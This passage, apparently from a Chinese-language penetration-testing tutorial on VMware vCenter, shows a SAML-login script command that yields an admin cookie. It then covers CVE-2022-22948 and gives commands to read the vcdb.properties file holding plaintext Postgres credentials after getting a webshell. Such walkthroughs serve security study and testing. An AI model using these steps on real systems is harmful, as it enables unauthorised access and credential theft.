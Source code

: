 <table><tbody style="outline: 0px;"><tr style="outline: 0px;background: rgb(245, 245, 245);border-width: initial !important;border-style: none !important;border-color: initial !important;"><td style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;min-width: 1.6rem;text-align: right;border-width: initial !important;border-style: none !important;border-color: initial !important;"><pre tabindex="0" style="padding-top: 0.25rem;padding-bottom: 0.25rem;padding-left: 0.5rem;outline: 0px;font-size: 1em;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: monospace, monospace;"><code style="outline: 0px;font-size: 0.9rem;display: inline-block;color: rgb(231, 76, 60);background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: Monaco, Consolas, Menlo, monospace;"><span style="outline: 0px;color: rgb(169, 169, 179);font-size: 15px;">1</span></code></pre></td><td style="padding: 0px;outline: 0px;word-break: break-all;hyphens: auto;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;border-width: initial !important;border-style: none !important;border-color: initial !important;"><pre tabindex="0" style="padding-top: 0.25rem;padding-bottom: 0.25rem;padding-left: 0.5rem;outline: 0px;font-size: 1em;background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;min-width: max-content;font-family: monospace, monospace;"><code data-lang="bash" style="outline: 0px;font-size: 0.9rem;display: inline-block;color: rgb(231, 76, 60);background-image: initial;background-position: initial;background-size: initial;background-repeat: initial;background-attachment: initial;background-origin: initial;background-clip: initial;font-family: Monaco, Consolas, Menlo, monospace;"><span style="outline: 0px;font-size: 15px;">python3 vcenter_saml_login.py -p data.mdb -t 192.168.0.92</span></code></pre></td></tr></tbody></table>  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoxxCRicIODVXQOXSKTDZGricB5QmnHvwb7icQ8mLPGMwAvfIUd5iaGaI6sQ/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223914.png-water_print")  
  
登录 VCSA 管理面板，访问 https://IP/ui  
，并设置 Cookie 为上面的返回结果。  
  
![](https://mmbiz.qpic.cn/mmbiz_jpg/Uq8Qfeuvou8FtczP1UexicmKrXOnWtTDoaB8tlyp7mEv67s8FdVrEjkzCx2q8dKuwV7GKgRDfNx529IT5ocB9Mw/640?wx_fmt=jpeg&wxfrom=5&wx_lazy=1&wx_co=1&tp=wxpic "https://geekby.oss-cn-beijing.aliyuncs.com/MarkDown/202205091223366.png-water_print")  
### 3.2 CVE-2022-22948 权限配置不当  
  
vCenter Server 包含由于文件权限不正确而导致的信息泄露漏洞，可以利用此漏洞在对 vCenter Server 具有非管理员访问权限的情况下获取敏感信息。  
  
通过第二节描述的漏洞获取的 webshell 权限通常为：vphere-ui  
，归属于用户组：cis  
。在 vCenter 系统的研究中，存在一个包含客户端 postgresDB  
 的明文登录凭证的文件：/etc/vmware-vpx/vcdb.properties  
。任何属于 cis  
 组的用户都可以访问这个文件。即：任何属于 cis  
 组的用户都可以连接到 vCenter 的 Postgres 数据库。  
  
获取 postgresql 配置文件信息：  
```
# linux
cat /etc/vmware-vpx/vcdb.properties
# or
cat /etc/vmware/service-state/vpxd/vcdb.properties

# windows
type  C:\ProgramData\VMware\vCenterServer\cfg\vmware-vps\vcdb.properties

```  
  